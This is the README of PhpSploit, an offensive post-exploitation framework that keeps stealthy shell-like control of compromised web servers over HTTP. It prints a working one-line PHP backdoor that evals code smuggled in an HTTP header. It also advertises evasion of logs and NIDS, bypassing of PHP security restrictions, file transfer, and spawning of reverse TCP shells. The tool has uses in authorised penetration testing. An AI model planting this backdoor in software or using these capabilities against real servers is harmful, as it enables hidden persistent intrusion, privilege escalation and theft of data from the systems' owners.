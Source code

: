 ### PhpSploit: *Advanced post-exploitation framework* ###

PhpSploit is a **remote control** framework, aiming to provide a **stealth**
interactive shell-like connection over HTTP between client and web server.
It is a post-exploitation tool capable to maintain access to a
compromised web server for **privilege escalation** purposes.

#### Overview ####

The obfuscated communication is accomplished using HTTP headers under
valid client HTTP requests and web server's responses, tunneled through
a tiny **polymorphic backdoor**:
```php
<? @eval($_SERVER['HTTP_PHPSPL01T']) ?>
```

#### Features ####

- More than 20 plugins to automate post-exploitation tasks:
    - Run commands and browse filesystem, bypassing PHP security restrictions
    - Upload/Download files between client and target
    - Edit remote files through local text editor
    - Run SQL console on target system
    - Spawn reverse TCP shells

- Nearly invisible by log analysis and NIDS signature detection
- Safe-mode and common PHP security restrictions bypass
- Communications are hidden in HTTP Headers
- Loaded payloads are obfuscated to bypass NIDS
- Multi-request support for large payloads
- Highly configurable through dynamic settings engine
- HTTP/HTTPS Proxy support
- And even more...

#### Example #####

![Image](data/img/phpsploit-demo.png)
